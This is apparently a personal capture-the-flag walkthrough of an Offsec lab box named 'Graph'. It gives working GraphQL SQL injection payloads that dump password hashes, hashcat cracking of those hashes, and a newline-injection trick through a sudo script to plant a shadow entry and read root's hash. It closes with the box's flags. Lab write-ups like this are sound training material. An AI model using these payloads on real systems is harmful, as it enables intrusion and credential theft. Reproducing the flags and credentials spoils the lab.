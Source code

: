 ```yaml
---
box_name: "Graph"
author: "James Heringer"
platform: "Offsec"
date: 2025-10-11
tags: [SQLi]
difficulty: "easy"
---
```


# Graph
- **192.168.168.201**
## TLDR Summary
1. This lab sucks.  It's way easier using Altair, step 6
2. Decent graphql walkthrough here : https://youtu.be/04ZBIioD5pA?t=5715
3. Enumeration should be able to find the that graphql services is running  on port 80
4. Custom seclist for graphql here : `/usr/share/seclists/Discovery/Web-Content/graphql.txt `
5. If you have custom graphql INQL tool, you can walk the schema and find a users table to enumerate
6. Enumerate with this tool : https://github.com/altair-graphql/altair/releases 
7. Walk graphql, to identify users table with password  hashes
8. This table has 3 users, with hashes. Jane is user that cracks
9. Login with jane via ssh
10. Read email, it  references script pass-gen
11. pass-gen source code indicates vulnerability, where it doesn't strip trailing new line \n
12. sudo -l shows we can run pass-gen as root
13. Use pass-gen to write new password entry for user josh
14. Josh is member of shadow users, so he  can read shadow file to get root password
15. SSH back in as josh
16. read /etc/shadow file, grab roots password, crack with hashcat, get flag
## Enum
```bash
sudo nmap -Pn -p- -T4 192.168.168.201  --reason                  
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61


sudo nmap -Pn -p 22,80 -T4 192.168.168.201 -sC -sV 
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Node.js Express framework
|_http-title: Welcome at Graph!

# whatweb enumeration 
whatweb -v http://192.168.168.201                              
Title     : Welcome at Graph!

feroxbuster -u  http://192.168.168.201 -k --silent

# specialized graphql wordlist 
feroxbuster -u  http://192.168.168.201 -k --silent -w /usr/share/seclists/Discovery/Web-Content/graphql.txt 


```

- so this is a graphql application
- it has an API endpoint at /graphql, that you can craft queries to   send to 
```bash
curl -X POST 'https://api.example.com/graphql' \
  -H 'Content-Type: application/json' \
  -d '{"query": "query GetUser { user(id: \"1\") { id name } }"}'
  
  curl -X POST  'http://192.168.168.201/graphql' \
  -H 'Content-Type: application/json' \
  -d '{"query": "query GetUser { user(id: \"1\") { id name } }"}'
  
```
- seclists has an smallish API endpoint file here : /usr/share/seclists/Discovery/Web-Content/api/ api-endpoints.txt
- A larger list  is   api-endpoints-res.txt  
```bash
 gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern 
```
- Graphql api isn't the way,  its a very cusom thing
```bash
curl -X GET 'http://192.168.168.201/graphql?query=query+cop+%7B__typename%7D' \
  -x http://127.0.0.1:8080

# forwarded through BURP, and sent to repeater, lets add some ERRORS!
GET /graphql?query='query+cop+%7B__typename%7D HTTP/1.1

Syntax Error: Unexpected single quote character (

```
## Altair  enum graphql 
1. Enumerate with this tool : https://github.com/altair-graphql/altair/releases 
2. Launch altair at `/opt/Altair GraphQL Client/altair`
3. Change to GET, use URL :  http://192.168.168.201/graphql/
4. Right side you can use syntax to 'add to query' automatically
5. Generic query will query users: ` users(searchTerm: "admin") `
6. We are going to modify query, introducing SQLi UNION  select
7. Change query to order by `users(searchTerm: "' ORDER BY 6-- -'")`
8. This query returns all users `users(searchTerm: "' ORDER BY 1-- -'")`
9. Query Table structure ` users(searchTerm: "' UNION SELECT sql FROM sqlite_master WHERE type='table';-- -'")`
10. The table query exposes a password_hash column
11. Grab password_hash ` users(searchTerm: "' UNION SELECT password_hash FROM users -- -'")`
12. We can also concatenate with || in our query : `  users(searchTerm: "' UNION SELECT username || password_hash FROM users -- -'") `
13. We now have password hash for  user jane, 
## CREDS
```bash
admin:$6$PRyGjElQ$unCSC/NlXu2KsYEjc1RuIqduAnPpPEwGg5diM4mZZbzhEWIWjhvlaoROBf5UgLWUFUFiEXSBjBmVENBbHO5oK/
jane:$6$4BlcfbYDsQp3BMG$vwPo.Fpjadmz2jqPFPxrNusB8zCM2TBnNU1HuwkO9vWWvt3jFbpJ0ymelX/fyNgoLW9vQ/fJI0mL8vqw96HMX.
josh:$6$g744Ii0AvY$Oce4aPVtE96encnfV5q1MboCBHyz74qw0R6d/iZKxIrHSFUtG3z7LfbAfHu1aoYRgbseH0tG3.nyGZ9qX1Ean.

echo '$6$4BlcfbYDsQp3BMG$vwPo.Fpjadmz2jqPFPxrNusB8zCM2TBnNU1HuwkO9vWWvt3jFbpJ0ymelX/fyNgoLW9vQ/fJI0mL8vqw96HMX.'  > hash.txt
hashid hash.txt 
[+] SHA-512 Crypt 

hashcat -m 1800 -a 0 hash.txt ~/pwk/rockyou.txt --force -o cracked
cat cracked
$6$4BlcfbYDsQp3BMG$vwPo.Fpjadmz2jqPFPxrNusB8zCM2TBnNU1HuwkO9vWWvt3jFbpJ0ymelX/fyNgoLW9vQ/fJI0mL8vqw96HMX.:oakland

# can also use show
hashcat -m 1800 -a 0 hash.txt  --show

jane:oakland
```

## SSH
```bash
# jane:oakland
ssh jane@192.168.168.201 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"  -p 22

# logged in, I have mail!  Lets check it
# There's no mail program, but I located Janes mail directory /var/mail/jane
cat /var/mail/jane
====================
From: root <root@graph>
To: jane@graph
Subject: Password updater
Message-ID: <20220307204209.GA15027@graph>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Disposition: inline
User-Agent: Mutt/1.9.4 (2018-02-28)

Mon Mar  7 20:42:09 UTC 2022

Hey, you can find the password updater script we talked about earlier in my home directory. Looking forward to your feedback!
=================================

/home/jane/src/password_manager.py

jane@graph:~$ cat  /etc/passwd |  grep -i sh
root:x:0:0:root:/root:/bin/bash
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
jane:x:1000:1000::/home/jane:/bin/bash
josh:x:1001:1001::/home/josh:/bin/bash
node:x:1002:1002::/home/node:/bin/sh


```

## Priv Esc
```bash
# find writable  files
find / -writable -type d 2>/dev/null


sudo -l
User jane may run the following commands on graph:
    (ALL : ALL) /usr/local/bin/pass-gen

ls -al /usr/local/bin/pass-gen 
-rwxr-xr-x 1 root root 1648 May 17  2022 /usr/local/bin/pass-gen

# god this box is dumb
# so from reading this file, we are supposed to  identify that it doesn't check for \n characters, allowing us to use it to insert another 'josh', who  is in shadow group, into the shadow file with a password of  our choice

mkpasswd -m sha512crypt password123

$6$xA4CCC7YQzDl40A$3lCVdpI59TEDZRqIKdFWB4daOmFq3FSgESYnhDNpiZRlitXs17G.HFKXmq2eMkoWJLC0xGPL2DRxJXupo/Orf1

sudo pass-gen '1337:7:::

josh:$6$xA4CCC7YQzDl40A$3lCVdpI59TEDZRqIKdFWB4daOmFq3FSgESYnhDNpiZRlitXs17G.HFKXmq2eMkoWJLC0xGPL2DRxJXupo/Orf1:19078:0:99999'

ane@graph:~/src$ sudo pass-gen '1337:7:::
> 
> josh:$6$xA4CCC7YQzDl40A$3lCVdpI59TEDZRqIKdFWB4daOmFq3FSgESYnhDNpiZRlitXs17G.HFKXmq2eMkoWJLC0xGPL2DRxJXupo/Orf1:19078:0:99999'

pass-gen: password updated successfully to mkSMeyT!CUz63aX 
# Josh's password is still password123
# login as josh
ssh josh@192.168.168.201 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"  -p 22

# Identify josh in shadow group
grep 'shadow' /etc/group 

# grab ROOTs hash and save to file
echo '$6$4kpaRzOQ$mG9wRaxktdkRgXRVp4tyZkNYub/95YRuZ7P8AybjSGsBCh/0HotsXCq77XI6LOcZfn.lxIzc4NOaHvkROXRMa/' hash.txt

# tried cracking with john.. was so slow, switched to hashcat

hashcat -m 1800 -a 0 hash $rockyou --force -o cracked

hashcat -m  0 hash.txt --show    
root : espartaco
```



## FLAGS
local: a8001ba7a0eca8e76337a49f9be8afc8
root: 403f07ce90f385201d824a8f918bc090